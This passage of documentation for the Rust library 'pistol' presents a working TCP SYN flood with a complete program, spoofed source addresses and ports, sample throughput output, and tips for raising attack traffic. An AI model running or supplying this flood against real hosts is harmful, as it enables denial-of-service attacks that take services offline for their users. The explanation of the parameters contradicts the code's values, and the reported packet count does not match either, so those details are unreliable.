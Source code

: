## 4. Flood Attack

```rust
use pistol::Target;
use pistol::PistolRunner;
use pistol::PistolLogger;
use pistol::tcp_syn_flood;
use std::net::Ipv4Addr;
use std::time::Duration;

fn main() {
    let _pr = PistolRunner::init(PistolLogger::None, None, None).unwrap();

    let dst_addr = Ipv4Addr::new(192, 168, 5, 5);
    let ports = Some(vec![22]);
    let target1 = Target::new(dst_addr.into(), ports);
    let num_threads = 30; // It can be simply understood as the number of attack threads.
    let retransmit_count = 10; // The number of times to retransmit the same attack packet.
    let repeat_count = 3; // The number of times each thread repeats the attack.
    let ret = tcp_syn_flood(&[target1], num_threads, retransmit_count, repeat_count).unwrap();
    println!("{}", ret);
}
```

For the above three parameters `num_threads`, `retransmit_count`, `repeat_count`, there is a vivid explanation. We generate a TCP SYN packet, including a fake source address and source port, and then we send this packet `3` times (`retransmit_count`) to the specific port of the target machine (the above example is port 22).

After that, we regenerate a new fake source address and fake source port and form a new TCP SYN packet. We repeat this operation `10` times (`repeat_count`).

Finally, we generate `30` threads (`num_threads`) to execute the above process.

### Output

We no longer use `threadpool` to limit the number of threads here, so please do it according to your ability (in the previous scan or ping function, we use `threadpool` to avoid system overload caused by too many threads when the target range is large).

```
+--------+-------------+-----------------------------------------------------------+
|                               Flood Attack Summary                               |
+--------+-------------+-----------------------------------------------------------+
|   id   |    addr     |                          report                           |
+--------+-------------+-----------------------------------------------------------+
|   1    | 192.168.5.5 | packets sent: 30(39.258MB), time cost: 2.738s(14.339MB/s) |
+--------+-------------+-----------------------------------------------------------+
```

If you increase the `num_threads`, `retransmit_count` and `repeat_count` above, the speed of attacks traffic will increase (if possible, increase `retransmit_count` is more efficient than improving `repeat_count` because it does not require rebuilding the package).
